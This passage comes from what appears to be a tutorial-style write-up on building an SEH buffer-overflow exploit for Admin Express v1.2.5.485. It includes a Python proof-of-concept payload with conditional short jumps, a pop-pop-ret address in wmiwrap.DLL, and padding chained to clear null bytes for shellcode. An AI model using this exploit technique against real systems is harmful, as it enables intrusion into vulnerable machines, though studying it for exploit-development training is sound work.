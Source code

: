 We repeat all of the same steps as above to crash the application, and we see below we have reached our jump:

<img src="{{ site.url }}{{ site.baseurl }}/images/11.png" alt="">

Awesome! The jump is ready to be taken! Our `O` flag is set to 0 at the current time of the instruction, so our jump will occur when the `JNO` operation is loaded into EIP for execution. We have a slight issue though. Look at the image below:

<img src="{{ site.url }}{{ site.baseurl }}/images/12.png" alt="">

We see there are some null bytes. These bytes are contained in our buffer of C's, not much farther down than our jump instruction. I am a paranoid person when it comes to having enough space for shellcode. Therefore,, I decided to change my PoC to add __a lot__ more jumps. This way, we get way the heck away from those null bytes and we will have plenty of room to write our shellcode.  Here is the updated PoC:

```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit

payload = "\x41" * 4260
payload += "\x70\x7e\x71\x7e"		# JO 126 bytes. If jump fails, default to JNO 126 bytes
payload += "\x42\x4c\x01\x10"		# 0x10014c42 pop pop ret wmiwrap.DLL

# There are 2 NULL (\x00) terminators in our buffer of A's, near our nSEH jump. We are going to jump far away from them
# so we have enough room for our shellcode and to decode.
payload += "\x41" * 122			# add padding since we jumped 7e hex bytes (126 bytes) above
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x79\x71\x79"		# JO or JNO only 121 bytes
payload += "\x41" * 121			# NOP is in the restricted characters. Using \x41 as a slide into alignment
payload += "\x43" * (5000-len(payload))
```
```
